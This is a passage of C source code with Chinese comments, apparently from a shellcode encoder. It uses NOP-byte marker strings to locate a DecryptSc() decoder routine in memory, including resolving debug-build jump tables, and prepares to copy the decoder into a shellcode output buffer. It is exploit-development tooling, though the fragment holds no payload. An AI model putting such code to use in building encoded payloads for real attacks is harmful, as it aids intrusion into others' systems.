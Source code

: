             "\x0\x0\x0\x0\x0"
            "strend";

  char  *fnbgn_str="\x90\x90\x90\x90\x90\x90\x90\x90\x90";  //标记开始的字符串
  char  *fnend_str="\x90\x90\x90\x90\x90\x90\x90\x90\x90";  //标记结束的字符串

  char  buff[BUFFSIZE];         //缓冲区
  char  sc_buff[sc_BUFFSIZE];   //ShellCodes缓冲
  char  *pDcrypt_addr,
        *pSc_addr;

  int   buff_len;               //缓冲长度
  int   EncCode_len;            //加密编码代码长度
  int   Sc_len;                 //原始ShellCode的长度

  int       i,k;
  unsigned  char ch;

  //
  //获得DecryptSc()地址，解码函数的地址，然后搜索MAX_Enc_Len字节，查找标记开始的字符串
  //获得真正的解码汇编代码的开始地址，MAX_Enc_Len定义为1024字节一般这已经足够了，然后将这
  //部分代码拷贝入待输出ShellCode的缓冲区准备进一步处理
  //
  pDcrypt_addr=(char *)DecryptSc;

  //定位其实际地址，因为在用Visual Studio生成调试版本调试的情况下，编译器会生成跳转表，
  //从跳转表中要计算得出函数实际所在的地址，这只是为了方便用VC调试

  ch=*pDcrypt_addr;
  if (ch==0xe9)
  {
      pDcrypt_addr++;
      i=*(int *)pDcrypt_addr;
      pDcrypt_addr+=(i+4);      //此时指向函数的实际地址
  }
  //找到解码代码的开始部分
  for(k=0;k<MAX_Enc_Len;++k) if(memcmp(pDcrypt_addr+k,fnbgn_str,BEGINSTRLEN)==0) break;

  if (k<MAX_Enc_Len) pDcrypt_addr+=(k+8);   //如找到定位实际代码的开始
  else
  {
      //显示错误信息
      k=0;
      printf("\nNo Begin str defined in Decrypt function!Please Check before go on...\n");
      return 0;
  }

  for(k=0;k<MAX_Enc_Len;++k) if(memcmp(pDcrypt_addr+k,fnend_str,ENDSTRLEN)==0) break;

  if (k<MAX_Enc_Len) EncCode_len=k;
  else
  {
      k=0;
      printf("\nNo End str defined in Decrypt function!Please Check....\n");
      return 0;
  }
